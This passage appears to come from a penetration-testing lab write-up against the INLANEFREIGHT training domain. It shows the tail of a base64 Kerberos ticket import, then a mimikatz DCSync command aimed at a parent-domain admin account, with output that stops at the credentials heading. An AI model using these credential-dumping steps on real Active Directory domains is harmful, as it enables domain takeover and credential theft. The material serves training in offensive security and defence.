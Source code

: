 ```bash

Hf+jggEhMIIBHaADAgEAooIBFASCARB9ggEMMIIBCKCCAQQwggEAMIH9oBswGaADAgEXoRIEEBrCyB2T

JTKolmppTTXOXQShHxsdTE9HSVNUSUNTLklOTEFORUZSRUlHSFQuTE9DQUyiEzARoAMCAQGhCjAIGwZo

YWNrZXKjBwMFAEDgAACkERgPMjAyMjAzMjkxNzA2NDFapREYDzIwMjIwMzI5MTcwNjQxWqYRGA8yMDIy

MDMzMDAzMDY0MVqnERgPMjAyMjA0MDUxNzA2NDFaqB8bHUxPR0lTVElDUy5JTkxBTkVGUkVJR0hULkxP

Q0FMqTIwMKADAgECoSkwJxsGa3JidGd0Gx1MT0dJU1RJQ1MuSU5MQU5FRlJFSUdIVC5MT0NBTA==

[+] Ticket successfully imported!

```


## DCSync attack on Parent Domain  

Once creating a golden ticket we are allow to perfom a DCSync attack on a parent domain. In this example targeting  `lab_adm` Domain Admin user .

```bash

PS C:\Tools\mimikatz\x64> .\mimikatz.exe

mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm

[DC] 'INLANEFREIGHT.LOCAL' will be the domain

[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server

[DC] 'INLANEFREIGHT\lab_adm' will be the user account

[rpc] Service  : ldap

[rpc] AuthnSvc : GSS_NEGOTIATE (9)



Object RDN           : lab_adm



** SAM ACCOUNT **


SAM Username         : lab_adm

Account Type         : 30000000 ( USER_OBJECT )

User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )

Account expiration   :

Password last change : 2/27/2022 10:53:21 PM

Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-1001

Object Relative ID   : 1001



Credentials:

```